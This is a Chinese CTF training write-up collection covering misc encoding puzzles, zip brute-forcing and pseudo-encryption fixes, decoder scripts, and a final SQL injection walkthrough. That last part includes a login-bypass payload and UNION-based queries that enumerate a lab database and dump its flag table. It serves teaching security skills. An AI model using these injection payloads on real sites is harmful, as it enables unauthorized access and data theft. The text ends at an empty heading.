


# CUC CTF 寒假集训WP集
## 1.13 新手, MISC, 签到
### 一.404notfound
题目是一个图片，用010editor打开之后直接找到flag

### 二.What_1s_BASE
下载了一个txt文件

看起来像是base64，再加上题目what is base的提示，尝试base64解码

找到flag
### 三.hardMisc
题目是一个图片，用010editor打开之后翻到最后看到疑似base64编码

去解码得到flag

### 四.Hex？Hex！
下载了一个txt文件

根据编码特征+题目提示去hex解码

### 五.Is this only base?
txt文件

看起来是base64，但==不在最后，疑似是置换密码，提示了数字23，所以尝试n=23的栅栏解密

正好把==移到了最后，base64解码

我们看到ZQC明显是CTF的k=23的凯撒密码，解密后拿到flag

### 六.就当无事发生

题目中说数据没脱敏就发出去了，还好没有部署，看到网站使用github开发，说明存在git泄露，我们是可以通过github的commit记录找到敏感数据，即flag。

打开题目中的网站，在关于界面有开发者github的跳转页面，前往他的github

去他的Repositories中找到这个网站的仓库

看看他的Committ记录

由于这是2023年的LitCTF的题，所以这个Commit记录肯定是23年之前的，最后在图示commit记录中找到了flag


## 1.15 进阶, MISC, Programming
### 一.寻找黑客的家
大黑客Mikato期末结束就迫不及待的回了家，并在朋友圈发出了“这次我最早”的感叹。那么你能从这条朋友圈找到他的位置吗？
moectf{照片拍摄地市名区名路名} (字母均小写)<br>
例如：西安市长安区西沣路：{xian_changan_xifeng}


看到最显眼的汉明宫，去搜索

发现第一个的电话号码符合末尾的33085，直接搜索清泉路星光城购物中心

发现在广东省深圳市龙华区清泉路<br>
提交{shenzhen_longhua_qingquan}
### 二.zip套娃

看起来是真加密，直接爆破

用密码1235解压，打开txt


然后用“1234567???”的掩码格式去爆破fl<br>
***
注：掩码攻击‌是一种密码破解方法，它利用密码的部分已知信息，定义一个密码格式或模板，进行破解
***

用1234567qwq解压fl

同样的txt，但这次掩码爆不出来fla，去010editor看看

明显的伪加密，把这一位01改为00后保存就可以打开了

### 三.最终试炼hhh

是一个没有后缀名的文件，直接用记事本打开也是乱码,用010editor打开

文件头没有特征，翻到最后发现文件尾是04 04 4B 50，即ZIP文件头的逆序，
推测该文件是一个zip文件的逆序，编写python程序
```python
my_input = open('./flag', 'rb')  # 'wb' :（write binary）,文件内容以字节的形式读取
input_all = my_input.read()  # 这是一个包含文件所有字节内容的 bytes 对象
my_reversed = input_all[::-1]
output = open('./flag.zip', 'wb')
output.write(my_reversed)
my_input.close()
output.close()
```
***
语法注释:<br>
[start:stop:step]，其中 step 表示步长。<br>
[::-1]：这是一个简便的方式，用于反转序列。具体来说，它从序列的末尾开始，以步长 -1 逐步取值，直到序列的开头。
***
输出了一个zip文件，需要密码，再用010打开查看

这里是00，说明是伪加密，到下一段将90修改为00

解压出来一个pdf

猜测可能用这个pdf文件做了隐写，用wbStego查看隐写

找到flag

### 四.misc999

表中一共62个字符，编写base62解码代码
***
**在编写python之前，先解释一些代码中用到的原理：**<br>
- 1.**什么是base62:**
Base62 编码的核心思想是将整数按位拆解，每一位对应 Base62 字符集中的一个字符。
通过除以 62 取得商和余数，余数对应的字符就是编码结果的一部分。
Base62 编码的用途通常是将二进制数据或较大数字编码成可打印字符，便于传输和存储。
- 2.**Base62 编码转换的基本原理:**
Base62 编码使用了 62 个字符（在本例中是 "9876543210qwertyuiopasdfghjklzxcvbnmMNBVCXZLKJHGFDSAPOIUYTREWQ"）
来表示一个整数。每一个字符可以视为一个“基数”62的“位”，这意味着每个字符代表一个数值，并且每个字符的位置决定了其相对的权重。
- 3.**mapper字典：**
字符集中的每个字符映射到一个唯一的数字
- 4.**long_to_bytes:**
将整数 n 转换为一个字节串，它的基本思想是：将整数 n 表示为一个无符号的二进制序列。
按照字节（8位）划分该二进制序列。
对于较小的整数，long_to_bytes 可能只返回一个字节。
对于较大的整数，返回的字节数组会有多个字节，包含整数的完整二进制表示。
***
```python
from Crypto.Util.number import long_to_bytes

# 创建字符到索引的映射
mapper = {c: i for i, c in enumerate("9876543210qwertyuiopasdfghjklzxcvbnmMNBVCXZLKJHGFDSAPOIUYTREWQ")}

# 初始化整数
n = 0

# Base62 编码的字符串
encoded_str = "7dFRjPItGFkeXAALp6GMKE9Y4R4BuNtIUK1RECFlU4f3PomCzGnfemFvO"

# 将 Base62 编码的字符串转换为整数
for c in encoded_str:
    if c in mapper:
        n *= 62
        n += mapper[c]
    else:
        raise ValueError(f"Character '{c}' not found in mapper.")

# 将整数转换为字节，并解码为字符串
try:
    decoded_bytes = long_to_bytes(n)
    decoded_str = decoded_bytes.decode('utf-8')
    print(decoded_str)
except UnicodeDecodeError:
    print("解码失败：字节序列不是有效的 UTF-8 编码。")
```

解出flag
### 五.Case64AR
Someone script kiddie just invented a new encryption scheme. It is described as a blend of modern and ancient cryptographic techniques. Can you prove that the encryption scheme is insecure by decoding the ciphertext below?

Ciphertext: OoDVP4LtFm7lKnHk+JDrJo2jNZDROl/1HH77H5Xv

即这是一个融合了现代和古典密码的加密方法需要我们破解，密文具有明显base64特征，结合Case64AR这个名字推测古典密码用的Caesar，猜测是在映射时有和凯撒密码相同原理的偏移，编写代码遍历所有可能的偏移量
```python
import base64

# 标准 Base64 编码表（不包括 '='）
base64_table = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

# 加密的字符串
enc = 'OoDVP4LtFm7lKnHk+JDrJo2jNZDROl/1HH77H5Xv'

# 遍历所有可能的偏移量
for n in range(64):
    dec = ""  # 用于存储当前偏移量下的 Base64 编码结果

    # 遍历密文中的每个字符
    for char in enc:
        # 找到字符在 Base64 编码表中的索引
        try:
            i = base64_table.index(char)
        except ValueError:
            # 如果字符不在 Base64 编码表中，跳过当前偏移量
            dec = None
            break

        # 计算新的索引，向后移动 offset 位（逆向偏移）
        new_index = (i - n) % 64
        # 根据新的索引找到对应的字符，并加入结果字符串
        dec += base64_table[new_index]

    if dec is None:
        print(f"偏移 {n}: Invalid character encountered")
        continue

    # 添加必要的填充
    padding = '=' * (-len(dec) % 4)
    dec_padded = dec + padding

    try:
        # 尝试解码 Base64，如果成功则打印结果
        flag = base64.b64decode(dec_padded).decode('utf-8')
        print(f"偏移 {n}: {flag}")
    except Exception:
        # 如果 Base64 解码失败（无效编码字符串），跳过
        print(f"偏移 {n}: Invalid Base64 string")
```
最终找到偏移量为50的时候时正确的flag

## 1.17 提高,Web,SQL注入,SSTI
### 一.Sqlmap_boy
打开题目给出的网站

查看网页源代码

发现有提示
```php
<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
```
这个代码片段用于生成一个SQL查询字符串，将$username和$password的值插入到查询中，
存在SQL注入漏洞，因为它直接将用户输入的 $username 和 $password 拼接到SQL查询中。
所以在用户名中输入
```
1’” OR 1=1； -- 
```
此时代码变成了
```sql
select username,password from users where username="'1'" OR 1=1; -- '" && password="'.$password.'";;
```
可以直接进入<br>
<br>
接下因为还没学会sqlmap所以用Hackbar手动注入
***
**基本符号：**<br>
%20:URL编码后的空格，防止SQL语法被中断<br>
--+：-- 是SQL的注释符号，后面的部分将被忽略。+ 是URL编码后的空格。
***
分别执行一下代码来判断字段数
```url
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201--+
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,2--+
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,2,3--+
```
到第三个页面才有反应，说明一共有三个字段，且如图显示第2，3个可以被使用

此时我们爆数据库，把2的位置替换成database()，即查看当前在使用的数据库名为moectf

接下来爆表
***
group_concat(table_name)：这是一个MySQL函数，它将当前数据库中所有表的名称连接成一个单一的字符串，结果可能是多个表名一起显示<br>
from information_schema.tables：information_schema 是MySQL的一个系统数据库，包含了关于所有其他数据库的信息。tables 表中包含所有表的名称<br>
where table_schema=database()：仅查询当前数据库中的表（通过 database() 函数获取当前数据库名称）<br>
***
用如下命令查看当前数据库中的所有表
```
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

接下来爆字段，用如下命令列出flag 表中的所有字段名称
```
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,database(),group_concat(column_name) from information_schema.columns where table_name='flag'--+
```

接下来爆字段内容，用如下命令列出flag表中flAg字段的内容
```
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,database(),group_concat(flAg) from moectf.flag--+
```

拿到flag
### 二.